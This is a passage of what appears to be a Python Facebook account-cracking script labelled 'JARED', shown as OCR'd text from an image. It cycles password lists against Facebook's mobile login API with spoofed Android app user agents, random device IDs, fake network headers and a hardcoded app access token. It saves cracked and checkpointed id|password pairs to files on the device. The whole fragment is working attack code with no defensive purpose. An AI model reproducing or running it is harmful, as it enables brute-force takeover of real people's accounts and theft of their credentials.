                                         open('/sdcard/JARED-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [JARED-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/JARED-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        print(e)
def rndm2(ids,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [JARED-R] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,777))+'.0.0.'+str(random.randrange(11,77))+str(random.randint(111,777))
                                application_version_code=str(random.randint(000000000,999999999))
                                accessToken="350685531728|62f8ce9f74b12f84c123cc23437a4a32"
                                network = random.choice(['Zong','Etisalat Af','Telenor','Telekom China'])
                                MRDanishyar = f'[FBAN/FB4A;FBAV/{application_version};FBBV/{application_version_code};FBDM/'+'{density=3.0,width=1080,height=2360};FBLC/en_US;FBRV/str(random.randint(000000000 ,999999999));FBCR/Roshan;FBMF/INFINIX MOBILITY LIMITED;FBBD/Infinix;FBPN/com.facebook.katana;FBDV/Infinix x677;FBSV/8.1.0;FBBK/3;FBOP/19;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
 
                        }
                                head ={
                    'x-fb-connection-quality':'EXCELLENT',
                    'x-fb-connection-type':'MOBILE.LTE',
                    'user-agent':MRDanishyar,
                    "Connection": "Keep-Alive",
                    'x-tigon-is-retry':'False',
                    'x-fb-http-engine':'Liger',
                    'x-fb-client-ip':'True',
                    'x-fb-server-cluster':'True',
                    'x-fb-device-group':str(random.randint(2000,4000)),
                    "X-FB-Connection-Bandwidth": str(random.randint(2e7, 4e7)),
                    'x-fb-sim-hni':str(random.randint(20000,40000)),
                    'x-fb-net-hni':str(random.randint(20000,40000)),
                    'x-fb-rmd':'cached=0;state=NO_MATCH',
                    'x-fb-request-analytics-tags':'graphservice',